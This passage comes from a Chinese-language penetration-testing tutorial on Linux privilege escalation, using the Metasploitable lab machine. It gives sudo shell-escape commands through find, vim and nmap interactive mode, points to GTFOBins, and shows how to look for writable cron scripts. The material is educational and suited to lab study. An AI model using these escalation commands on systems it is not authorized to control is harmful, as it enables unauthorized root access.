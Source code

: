 **利用此提权需获取一个账户，则需要知道其密码。**

开始操作。

就拿 metasploitable来举例吧。

![image-20210326091030855](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173316.png)

(ALL) ALL：意思是当前用户(msfadmin)可以sudo执行root所有命令，但是默认需要输入密码.

那么这里提权就变得十分简单了。

##### 4.5.1 find

```bash
sudo find / -name var -exec /bin/bash \;
```

![image-20210326091420818](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173317.png)

##### 4.5.2 vim

```bash
sudo vim -c '! sh'
```

![image-20210326091635429](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173318.png)

##### 4.5.3 nmap

```bash
nmap --interactive
nmap> !sh
```

![image-20210326091926229](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173319.png)

##### 4.5.4 可以在这里找到所有的利用方式 https://gtfobins.github.io/

#### 4.6 计划任务

系统内可能会有一些定时执行的任务，一般这些任务由crontab来管理，具有所属用户的权限。非root权限的用户是不可以列出root用户的计划任务的。但是/etc/内系统的计划任务可以被列出。

如果可以找到可以有权限修改的计划任务脚本，就可以修改脚本实现提权。本质上，就是文件权限配置不当。

```bash
ls -l /etc/cron*
cat /etc/crontab
```

关注：

1. cron中是否有可写的脚本或二进制文件？
2. 我们可以覆盖cron文件本身吗？
3. cron.d目录可写吗？

语法：

```bash
分 时 日 月 周 需要执行的命令

分：0~59
时：0~23
日：1~31
月：1~12
周：0~6 #0代表周日
*：（星号）代表取值范围中的每一个数字
-：（减号）连续区间表达式，想要代表1~7，则需要写成1-7
/：（斜杠）表示每x个。例如想在每10分钟执行一次，则在分的位置写：*/10
,：（逗号）表示多个取值。如果想在1点，3点，5点执行一次，则在时的位置写：1,3,5
```
